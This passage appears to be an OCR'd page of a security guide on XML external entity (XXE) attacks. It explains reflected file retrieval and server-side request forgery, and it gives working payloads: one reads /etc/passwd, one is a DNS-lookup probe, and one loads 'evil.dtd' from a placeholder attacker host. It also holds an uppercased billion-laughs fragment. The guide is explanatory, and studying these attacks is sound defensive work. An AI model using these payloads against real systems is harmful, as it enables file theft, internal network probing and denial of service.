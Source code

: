 ```xml
]>
<SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
               XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/">
 <SOAP:BODY>
  <KEYWORD XMLNS="URN:PARASOFT:WS:STORE">FOO</KEYWORD>
 </SOAP:BODY>
</SOAP:ENVELOPE>
```

#### Reflected File Retrieval

Consider the following example code of an XXE:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
 <!ELEMENT includeme ANY>
 <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<root>&xxe;</root>
```

**The previous XML defines an entity named `xxe`, which is in fact the contents of `/etc/passwd`, which will be expanded within the `includeme` tag. If the parser allows references to external entities, it might include the contents of that file in the XML response or in the error output.**

#### Server Side Request Forgery

**Server Side Request Forgery (SSRF) happens when the server receives a malicious XML schema, which makes the server retrieve remote resources such as a file, a file via HTTP/HTTPS/FTP, etc.** SSRF has been used to retrieve remote files, to prove a XXE when you cannot reflect back the file or perform port scanning, or perform brute force attacks on internal networks.

##### External DNS Resolution

**Sometimes it is possible to induce the application to perform server-side DNS lookups of arbitrary domain names.** This is one of the simplest forms of SSRF, but requires the attacker to analyze the DNS traffic. Burp has a plugin that checks for this attack.

```xml
<!DOCTYPE m PUBLIC "-//B/A/EN" "http://checkforthisspecificdomain.example.com">
```

##### External Connection

Whenever there is an XXE and you cannot retrieve a file, you can test if you would be able to establish remote connections:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
 <!ENTITY % xxe SYSTEM "http://attacker/evil.dtd">
 %xxe;
]>
```

